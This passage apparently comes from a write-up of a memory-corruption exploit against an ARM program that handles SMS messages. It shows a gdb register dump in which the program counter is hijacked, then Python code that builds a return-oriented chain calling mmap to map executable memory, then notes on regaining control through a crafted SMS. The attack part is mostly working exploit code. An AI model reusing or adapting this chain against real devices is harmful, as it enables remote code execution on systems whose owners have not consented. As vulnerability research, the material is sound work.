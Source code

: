 ```python
r8             0x61756161          1635082593
r9             0x61766161          1635148129
r10            0x61776161          1635213665
r11            0x61786161          1635279201
r12            0x7                 7
sp             0x7efe9b38          0x7efe9b38
lr             0x3f                63
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x600b0110          1611333904
fpscr          0x10                16
"""
address = 0x177000
stderr = 0x00036E90
ropchain = c[:74] + p32(stderr) + p32(address) * 4 
ropchain = ropchain.ljust(94, "A")
ropchain += p32(r3popnothumb)
ropchain += p32(address) #r3 dont care
ropchain += p32(r5pop+1)
ropchain += p32(address) #r5 dont care
ropchain += p32(r14pop+1)
ropchain += p32(0x1000) #r1 size
ropchain += p32(address) #r4 dont care
ropchain += p32(r234pop+1) #pc
ropchain += p32(7) #r2 prot
ropchain += p32(address) #r3 dont care
ropchain += p32(address) #r4 dont care
ropchain += p32(r03pop+1) #pc
ropchain += p32(address) #r0 addr
ropchain += p32(0x22) #r3 flags Anonimous
ropchain += p32(mmap)
ropchain += p32(0x0) #fildes
ropchain += p32(0x0) #off
ropchain += p32(0x41414141) #pc
```

### Gaining back PC Control
The main problem was that `mmap` assumed to be called with a `BLX`, ergo it will return to the value inside the `lr` register. 
For whatever reason that I do not know `lr` register was set to `0x3f` so a direct jump to `mmap` would cause a crash at the end.
Instead of jumping directly to `mmap` then, we can use a call of `mmap` that is already in the program somewhere.
This, after the execution of the `mmap`, would continue the execution in that part of the program.
Then we just need to have the program not crashing before reaching another return that do not use link register.
I jumped to `0x00013E0C +1`.

```c
.text:00013E04 200 MOV.W           R2, #3  ; prot
.text:00013E08 200 ADD             R1, R5  ; len
.text:00013E0A 200 STR             R5, [R4,#0x58] ; Store to Memory
.text:00013E0C 200 BLX             mmap    ; Branch with Link and Exchange (immediate address)
.text:00013E10 200 ADDS            R3, R0, #1 ; Rd = Op1 + Op2
.text:00013E12 200 STR             R0, [R4,#0x5C] ; Store to Memory
.text:00013E14 200 BEQ.W           loc_140F0 ; Bran
```
To ensure that the execution would continue without crashing, I tried to set most registers to `address`. In this way, instructions differentiating those registers would not end up crashing.
This actually (and surprisingly) worked. I manually executed my payload with gdb until the program was popping another value from the stack to the `PC` register. 
I save the address did some math to understand how far it was from the vulnerable buffer. With an sms in position `8` we can gain back control of `PC` register.
